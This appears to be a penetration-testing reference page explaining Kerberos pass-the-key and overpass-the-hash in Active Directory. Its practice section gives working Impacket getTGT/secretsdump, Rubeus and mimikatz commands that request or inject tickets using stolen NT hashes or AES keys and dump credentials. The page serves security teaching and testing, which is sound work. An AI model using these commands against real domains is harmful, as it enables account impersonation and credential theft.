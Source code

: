```yaml
---
authors: 'ShutdownRepo, mauricelambert, sckdev'
category: ad
---
```


# Pass the key

## Theory

The Kerberos authentication protocol works with tickets in order to grant access. A Service Ticket (ST) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to [ASREProast](asreproast.md)).

The pre-authentication requires the requesting user to supply its secret key (DES, RC4, AES128 or AES256) derived from the user password. An attacker knowing that secret key doesn't need knowledge of the actual password to obtain tickets. This is called pass-the-key.

Kerberos offers 4 different key types: DES, RC4, AES-128 and AES-256.

* When the RC4 etype is enabled, the RC4 key can be used. The problem is that the RC4 key is in fact the user's NT hash. Using a an NT hash to obtain Kerberos tickets is called [overpass the hash](opth.md).
* When RC4 is disabled, other Kerberos keys (DES, AES-128, AES-256) can be passed as well. This technique is called pass the key. In fact, only the name and key used differ between overpass the hash and pass the key, the technique is the same.

## Practice

::: tabs

=== UNIX-like

The [Impacket](https://github.com/SecureAuthCorp/impacket) script [getTGT](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py) (Python) can request a TGT (Ticket Granting Ticket) given a password, hash (`LMhash` can be empty), or aesKey. The TGT will be saved as a `.ccache` file that can then be used by other Impacket scripts.

```bash
# with an NT hash (overpass-the-hash)
getTGT.py -hashes 'LMhash:NThash' $DOMAIN/$USER@$TARGET

# with an AES (128 or 256 bits) key (pass-the-key)
getTGT.py -aesKey 'KerberosKey' $DOMAIN/$USER@$TARGET
```

Once a TGT is obtained, the tester can use it with the environment variable `KRB5CCNAME` with tools implementing [pass-the-ticket](ptt.md).

An alternative to requesting the TGT and then passing the ticket is using the `-k` option in Impacket scripts. Using that option allows for passing either TGTs or STs. Example below with secretsdump.

```bash
secretsdump.py -k -hashes 'LMhash:NThash' $DOMAIN/$USER@$TARGET
```


=== Windows

On Windows, requesting a TGT can be achieved with [Rubeus](https://github.com/GhostPack/Rubeus) (C#). The ticket will be injected in the session and Windows will natively be able to use these tickets to access given services.

```powershell
# with an NT hash
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /rc4:$NThash /ptt

# with an AES 128 key
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes128:$aes128_key /ptt

# with an AES 256 key
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes256:$aes256_key /ptt
```

An alternative to Rubeus is [mimikatz](https://github.com/gentilkiwi/mimikatz) with [`sekurlsa::pth`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/pth).

```powershell
# with an NT hash
sekurlsa::pth /user:$USER /domain:$DOMAIN /rc4:$NThash /ptt

# with an AES 128 key
sekurlsa::pth /user:$USER /domain:$DOMAIN /aes128:$aes128_key /ptt

# with an AES 256 key
sekurlsa::pth /user:$USER /domain:$DOMAIN /aes256:$aes256_key /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically [inject the ticket](ptt.md#injecting-the-ticket).

:::


## Resources

[https://blog.notso.pro/2020-05-09-offops-in-ad-1/](https://blog.notso.pro/2020-05-09-offops-in-ad-1/)

[http://blog.gentilkiwi.com/securite/mimikatz/overpass-the-hash](http://blog.gentilkiwi.com/securite/mimikatz/overpass-the-hash)

[https://blog.stealthbits.com/how-to-detect-overpass-the-hash-attacks/](https://blog.stealthbits.com/how-to-detect-overpass-the-hash-attacks/)
